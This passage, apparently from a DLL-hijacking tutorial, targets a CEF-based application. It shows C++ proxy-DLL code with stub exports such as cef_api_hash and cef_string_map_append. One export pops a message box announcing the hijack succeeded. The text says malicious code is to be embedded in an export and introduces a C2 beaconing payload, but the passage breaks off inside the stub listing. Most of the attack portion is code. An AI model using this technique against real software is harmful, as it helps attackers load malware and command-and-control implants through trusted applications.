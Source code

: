 ```
        break;
    }
    return TRUE;
}


```

**We only need to embed the malicious code within the following export function:**

```
extern "C" __declspec(dllexport) int cef_api_hash() {
    MessageBoxA(NULL, "dll导出函数劫持成功", 0, 0);
    return 0;
}

```



**Now, let's demonstrate the scenario of establishing a C2 connection.**



**ere is the simplest and most basic payload for C2 beaconing:**

![image-20251023103810726](https://cdn.jsdelivr.net/gh/yawataa/image@main/img/202510231038772.png)

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
extern "C" __declspec(dllexport) int cef_string_multimap_free() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_alloc() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_append() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_value() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_key() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_size() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_append() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_value() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_utf16_clear() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_key() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_map_size() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_list_append() {
    return 0;
}
```